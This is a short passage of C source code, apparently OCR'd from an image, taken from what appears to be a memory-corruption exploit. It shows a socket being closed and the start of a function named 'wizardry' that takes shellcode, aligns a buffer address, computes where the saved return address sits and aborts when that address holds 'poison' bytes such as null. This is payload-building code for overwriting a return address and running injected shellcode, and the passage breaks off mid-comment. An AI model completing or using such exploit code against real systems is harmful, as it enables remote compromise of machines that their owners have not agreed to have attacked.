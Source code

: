     }

 

    close(sockd);

}

 

 

char *

wizardry(char *sc, u_long bufpos, int buflen, int offset, int wipe)

{

    int i, j, cnt, pad;

    char pbyte, *buff, *ptr;

    u_long retpos;

    u_long dstpos;

 

 

    while(bufpos % 4) bufpos--;

    /* buflen + ebp */

    retpos = bufpos + buflen + 4;

 

/*

** 0x00 == '\0'

** 0x25 == '%'

** (add troublesome bytes)

** Alignment requirements aid comparisons

*/

 

    pbyte = retpos & 0xff;

 

    /* Yes, it's 0x24 */

    if(pbyte == 0x00 || pbyte == 0x24)

    {

        fprintf(stderr, "Target address space contains a poison char\n");

        exit(EXIT_FAILURE);

    }

 

/*
